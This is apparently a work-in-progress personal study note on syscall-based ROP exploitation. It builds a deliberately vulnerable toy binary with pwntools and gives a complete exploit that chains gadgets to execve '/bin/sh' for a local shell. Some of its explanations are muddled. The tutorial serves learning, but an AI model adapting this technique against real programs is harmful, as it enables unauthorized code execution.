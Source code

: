 ```yaml
---
description: 09/22/2023
---
```


# Exploitation w/ Syscalls

## References

{% embed url="https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-syscall-execv" %}

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/syscalls/exploitation-with-syscalls" %}

**First, we'll create a file with Python/pwntools:**

```python
import os
from pwn import *


context.arch = 'amd64'
context.os = 'linux'

elf = ELF.from_assembly(
    '''
        mov rdi, 0;
        mov rsi, rsp;
        sub rsi, 8;
        mov rdx, 300;
        syscall;
        ret;
        
        pop rax;
        ret;
        pop rdi;
        ret;
        pop rsi;
        ret;
        pop rdx;
        ret;
    '''
)
elf.save('vuln')
os.system("chmod +x vuln")
```

It will first execute a `read()` syscall. This will read from a file descriptor (identifier for a file or other resource).

**We can see this with `strace`:**

```
strace ./vuln
execve("./vuln", ["./vuln"], 0x7ffd9782ca00 /* 22 vars */) = 0
read(0,
"\n", 300)
```

We can see `execve()` placing the value `0` into `RAX` (which the kernel checks), storing the value as a parameter (`0`) into `RDI` and calling `read()` or `0` which is the syscall number for `read()`.

## Analyzing Syscalls in Ghidra

Okay, so this was a little different.

We can see that the value, <mark style="color:yellow;">`0`</mark> <mark style="color:yellow;">is</mark> <mark style="color:yellow;">being moved onto the stack and being placed into the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`RDI`</mark> <mark style="color:yellow;">register</mark>.

This is our <mark style="color:yellow;">invoke of the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`read()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">syscall since</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`0`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">is our syscall number</mark>.

We then write the value `300` (had to convert this from `0x12C`) to the stack using `RDX`.

Lastly, we `ret`.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Ghidra Analysis</p></figcaption></figure>

**We can add `"/bin/sh"` by:**&#x20;

```
echo -en "/bin/sh\x00" >> vuln
```

**After that, we can get the gadget address using `strings`:**

```
strings -t x vuln | grep bin
   1238 /bin/sh
```

We see the offset from the base to the string is `0x1238`.

## Exploitation

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Arming ourselves with the following information will allow us to get a shell.

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

binsh = elf.address + 0x1238

POP_RAX = 0x10000018
POP_RDI = 0x1000001a
POP_RSI = 0x1000001c
POP_RDX = 0x1000001e
SYSCALL = 0x10000015

payload = flat(
    'A' * 8,
    POP_RAX,
    0x3b,
    POP_RDI,
    binsh,
    POP_RSI,
    0x0,
    POP_RDX,
    0X0,
    SYSCALL
)

p.sendline(payload)
p.interactive()
```

<mark style="color:red;">**Disclaimer**</mark>: Unfortunately and for the first time, I wasn't really fond of Ir0nstone's guide on this one, so I will be adding some more examples.

As a result, this is still a work in progress.
